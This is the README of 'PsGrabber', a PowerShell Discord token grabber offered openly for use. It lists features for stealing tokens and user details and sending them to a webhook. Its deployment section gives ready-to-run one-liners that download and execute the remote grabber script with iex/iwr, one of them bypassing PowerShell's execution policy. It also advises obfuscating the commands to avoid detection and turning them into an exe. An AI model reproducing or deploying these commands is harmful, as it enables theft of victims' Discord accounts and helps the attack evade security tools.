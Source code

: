 ![Logo](https://i.ibb.co/Vtx5jqF/Capture.png)

    
# PsGrabber
A Discord token grabber that exfiltrates tokens to a webhook written in powershell



<details open="open">
  <summary>Table of Contents</summary>
  <ol>
    <li>
      <a href="#features">Features</a>
    </li>
    <li>
      <a href="#deployment">Deployment</a>
    </li>
    <li><a href="#acknowledgements">Acknowledgements</a></li>
    <ul>
        <li><a href="#authors">Authors</a></li>
    </ul>
  </ol>
</details>


## Features

- Inbuilt token checker
- All data sent through a webhook
- Provives userID of tokens found
- Provides token type
- Provides the usernames of the tokens stolen
- Gives information on where the tokens stolen are stored

## Deployment

To effectivly deploy this project, choose one of these steps\
To avoid detection, the following commands should be Encoded using [Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)


#### Define HookUrl and use the payload as a powershell script
```powershell
$hookurl='';iex((iwr https://raw.githubusercontent.com/AROAH1337/PSGrabber/refs/heads/main/PSGrabber.ps1).content)
```

#### Convert to batch and then convert into an exe using a third party program
```batch
powershell.exe -NoProfile -ExecutionPolicy bypass -Command "$hookurl='';iex((iwr https://raw.githubusercontent.com/AROAH1337/PSGrabber/refs/heads/main/PSGrabber.ps1).content)"
```

## Acknowledgements

 - danielbohannon for The [obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation) used in the program
  


## Authors

- [@MattOverthow](https://github.com/MattOverthrow/)

